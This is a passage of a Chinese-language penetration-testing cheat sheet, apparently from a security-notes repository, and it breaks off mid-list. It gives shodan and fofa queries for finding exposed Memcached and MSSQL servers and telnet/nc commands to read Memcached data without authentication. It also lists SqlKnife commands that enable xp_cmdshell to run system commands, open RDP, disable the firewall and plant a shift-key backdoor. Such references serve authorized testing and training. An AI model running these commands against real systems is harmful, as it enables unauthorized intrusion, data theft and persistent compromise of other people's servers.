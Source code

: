 - POC | Payload | exp

    ```
    /debug/vars
    /debug/requests?seconds=10
    /ping 用来检查数据库实例状态和版本号
    /query 用来查询数据库数据
    /write 用来更改数据库数据
    ```

---

## memcached

`Memcached 是一套常用的 key-value 分布式高速缓存系统`

> shodan: "product:Memcached"
> fofa: app="MEMCACHED"

**未授权访问漏洞**
- 概述

    由于 Memcached 的安全设计缺陷没有权限控制模块，所以对公网开放的 Memcache 服务很容易被攻击者扫描发现，攻击者无需认证通过命令交互可直接读取 Memcached 中的敏感信息。

- POC | Payload | exp

    `telnet [ip] 11211`

    `nc -vv [ip] 11211`

    ```bash
    stats           # 查看 memcache 服务状态
    stats items     # 查看所有 items
    set aaa 0 10 9  # 存个 aaa 值
    memcached

    get aaa         # 读这个值
    ```

---

## MSSQL

> fofa : app="Microsoft-SQL-Server"

**注入**
- [MSSQL数据库注入笔记](../Web安全/Web_Generic/SQLi.md#MSSQL)

**教程**
- [aleenzz/MSSQL_SQL_BYPASS_WIKI](https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI)

**相关文章**
- [从攻击MS SQL Server到获得系统访问权限](https://www.freebuf.com/articles/database/22997.html)

**相关工具**
- [0x727/SqlKnife_0x727](https://github.com/0x727/SqlKnife_0x727) - 适合在命令行中使用的轻巧的SQL Server数据库安全检测工具
    ```
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --fix	            # 启用xp_cmdshell
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd -c whoami         # 使用xp_cmdshell执行命令
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --remove          # 禁用xp_cmdshell
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --oacreate --fix	        # 恢复Ole Automation Procedures
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --oacreate -c calc.exe	# Ole Automation Procedures执行程序
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --openrdp	                # 开启RDP
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --disfw	                # 关闭防火墙
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --shift	                # 劫持shift键